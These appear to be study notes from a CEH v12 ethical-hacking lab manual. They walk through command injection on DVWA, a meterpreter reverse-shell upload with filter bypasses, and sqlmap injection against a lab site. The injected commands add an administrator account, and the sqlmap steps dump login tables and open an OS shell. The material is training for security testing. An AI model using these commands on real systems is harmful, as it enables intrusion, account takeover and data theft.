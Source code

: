 ###  Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)

- If found command injection vulnerability in an input textfield
- | hostname
- | whoami
- **| tasklist| Taskkill /PID /F**
  - **/PID: Process ID value od the process**
  - **/F: Forcefully terminate the process**
- | dir C:\
- **| net user**
- **| net user user001 /Add**
- **| net localgroup Administrators user001 /Add**
- Use created account user001 to log in remotely

https://www.scribd.com/document/662376180/CEH-v12-LabManual-p04

###  Exploit a file upload vulnerability at different security levels **msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw**
- For LOW DVWA:
  - Create a file with output (reverse.php)
  - File Upload -> select reverse.php
- For MEDIUM DVWA:
  - Create a file with output (reverse.php.jpg)
  - File Upload -> select reverse.php.jpg
  - Intercept call with Burp Suite and change file name to reverse.php
- For HIGH DVWA:
  - Create a file with output (reverse.php.jpg) and add **GIF98** as header
  - File Upload -> select reverse.php.jpg
  - Command Injection -> | copy reverse.php.jpg reverse.php
- **msfconsole**
- **use exploit/multi/handler**
- **set payload php/meterpreter/reverse_tcp**
- **set LHOST=[IP]**
- **set LPORT=[PORT]**
- **run**
- Go to http://[DVWA]/dvwa/hackable/uploads/reverse.php

## Module 15: SQL Injection

### Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
- Login a website
- Inspect element
- Dev tools->Console: document.cookie
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] –dbs**
  - **-u: Specify the target URL**
  - **--cookie: Specify the HTTP cookie header value**
  - **--dbs: Enumerate DBMS databases**
- Select a database to extract its tables
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] -D moviescope –-tables**
  - **-D: Specify the DBMS database to enumerate**
  - **--tables: Enumerate DBMS database tables**
- Select a table
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] -D moviescope –T User_Login --dump**
  - Get data of this table
- **sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=[VALUE] --os-shell**
  - Get the OS Shell
- TASKLIST
